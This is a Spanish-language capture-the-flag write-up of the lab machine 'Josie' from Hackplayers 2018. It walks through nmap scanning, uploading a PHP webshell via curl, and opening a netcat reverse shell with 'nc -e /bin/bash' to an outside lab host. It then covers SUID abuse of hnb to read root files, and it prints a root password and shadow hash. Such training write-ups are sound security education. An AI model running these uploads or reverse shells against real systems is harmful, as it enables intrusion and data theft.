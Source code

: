 # Hackplayers 2018 - Josie

Maquina ‘Josie’ 10.42.0.151

Comenzamos realizando un escaneo con nmap encontramos los siguientes servicios

```
$ nmap -sV 10.42.0.151
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
81/tcp  open  http    Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind 2-4 (RPC #100000)
```

La aplicación tiene bastantes vulnerabilidades, aprovechamos una que nos permite subir archivos para subir una webshell simple `<?php system($_GET[1]) ?>`.

![](img/josie-web1.png)

```
$ curl '10.42.0.151/dapur/apps/app_theme/libs/save_file.php' --data 'content=<?php system($_GET[1]) ?>&src=shell.php'
```

Probamos la webshell

```
$ curl 'http://10.42.0.151/dapur/apps/app_theme/libs/shell.php?1=whoami'
www-data
```

Ahora subimos otra webshell, que nos permita subida de archivos para trabajar subir cualquier archivo grande de forma cómoda. Para ello, podemos utilizar la vulnerabilidad anterior, o el comando echo en la webshell.

```
<?php if(is_uploaded_file(@$_FILES["userfile"]["tmp_name"])) {move_uploaded_file($_FILES["userfile"]["tmp_name"],
 $_FILES["userfile"]["name"]);echo "Uploaded: <b>".$_FILES["userfile"]["name"]."</b>";}?>
 <form enctype="multipart/form-data" action="" method="post"><input name="userfile" type="file">
 <input type="submit" value="Upload"></form>
```

```
curl '10.42.0.151/dapur/apps/app_theme/libs/save_file.php' --data 'content=<?php if(is_uploaded_file(@$_FILES["userfile"]["tmp_name"])) {move_uploaded_file($_FILES["userfile"]["tmp_name"], $_FILES["userfile"]["name"]);echo "Uploaded: <b>".$_FILES["userfile"]["name"]."</b>";}?><form enctype="multipart/form-data" action="" method="post"><input name="userfile" type="file"><input type="submit" value="Upload"></form>
&src=upload.php'```

josie-upload.png"

Podemos usar la opción “fácil” para hacer una shell reversa de b374k o utilizar la ejecución de comandos con `nc -e /bin/bash 10.42.0.201 8080`

Una vez recibimos la conexión reversa, convertirmos la shell en interactiva.

```
python -c 'import pty;pty.spawn("/bin/bash")'
^Z
stty -icanon -isig -echo;fg;stty sane
```

La flag se encuentra ‘escondida’ en /home/alice/ con el nombre .flag.txt. Al no tener restricción de permisos, la leemos directamente.

```
$ cat .flag.txt
Flag{20ea...}
```

En el home de alice también tenemos un archivo pcap para la prueba de Forense.

Tambien tenemos una prueba con nombre Elevate. Se trata de un binario x86 sin suid que a primera vista nos da la contraseña de root si lo resolvemos.

Para trabajar mejor con el vamos a instalar [gdb-peda](https://github.com/longld/peda), como no tenemos acceso directo a internet en la máquina, decargamos el repositorio en /tmp/www-data

```
cd /tmp/www-data
export HOME=/tmp/www-data
echo "source ~/peda/peda.py" >> ~/.gdbinit
gdb /home/alice/Elevate/root
```

Analizando el binario, se obtiene una de las soluciones posibles.

```
$ echo ArtVFqs28tXhd | ./root z z z z z z z z z z z z z z z z z z z z z z z z z z z z z z z z A
```

Al parecer esto no sirve para nada realmente útil, ya que no es la contraseña de ningún usuario del sistema.

## Actualización

La solución correcta se obtenía utilizando el carácter ‘1’ 81 veces. Observando que strcat añade la letra Q al texto introducido. Obteniendo la contraseña de root ArtVFqs28tXhdQ.

```
$ echo ArtVFqs28tXhd | ltrace ./root $(python -c 'print "1 "*81')
...
strcat("ArtVFqs28tXhd", "Q\001") = "ArtVFqs28tXhdQ\001"
strcmp("ArtVFqs28tXhdQ\001", "ArtVFqs28tXhdQ\001")
puts("Congratz! You know now the password.")
```

## PrivEsc

Pasamos a analizar vulnerabilidades en el sistema que nos permitan escalar privilegios. Para ello se utiliza [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py)

```
[+] SUID/SGID Files and Directories
    -rwsrwxrwx 1 root root 160164 Jul 13  2013 /usr/bin/hnb
```

```
www-data@Josie:/$ hnb -ui cli -a /root/flag.txt
hnb - hierarchical notebook   http://hnb.sourceforge.net/
ascii import, imported "/root/flag.txt"
Welcome to hnb 1.9.18
type ? or help for more information
/>ls
flag{14ui...}  < 
```

![](img/josie-hnb.png)

También podemos utilizar hnb para leer el hash de root, y posiblemente modificarlo para poder escalar privilegios. `root:$6$pyY9Sms.$1LBD1lxwIDbuZztQOCgv7hMDyO2zzVCHWrAMRhR8UmfEAaZYcDVmpQ08GsIFywGrQKQU3Bswn6`

